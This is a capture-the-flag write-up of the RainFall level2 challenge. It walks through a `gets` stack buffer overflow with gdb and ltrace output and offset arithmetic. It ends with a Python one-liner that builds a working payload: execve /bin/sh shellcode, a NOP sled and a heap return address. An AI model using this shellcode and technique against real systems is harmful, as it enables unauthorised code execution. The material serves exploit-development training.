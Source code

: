 First we start by open the file in [dogbolt](https://dogbolt.org/). We can see that it use the `gets` function which is vulnerable to overflow attacks.

Here we see that we have to get a shellcode to launch a shell. We can use [shell-storm](https://shell-storm.org/shellcode/index.html) :

We use a pattern like the previous level:
`aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz`

```
(gdb) r
Starting program: /home/user/level2/level2
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppuuuurrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x75757575 in ?? ()
(gdb) x/s $esp
0xbffff720:      "vvvvwwwwxxxxyyyyzzzz"
```

26-5=21</br>
21\*4=84

Now to find the return address we will use ltrace on the file:

```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                                 = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
)                                                                                                      = 0xbffff6fc
puts(""
)                                                                                                                                           = 1
strdup("")                                                                                                                                         = 0x0804a008
+++ exited (status 8) +++
```

Here we can see that the strdup use the address 0x0804a008 (address from the buffer)
When transform in little endian and hex: \x08\xa0\x04\x08

84-size(shellcode) : 84 - 21= 63
63-size(address) : 63 - 4 = 59

So now we know that our exploit will be compose by :
[21 char of shellcode][a 59 nop sled][4 bytes address]

python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" \* 59 + "\x08\xa0\x04\x08"' > /tmp/test3
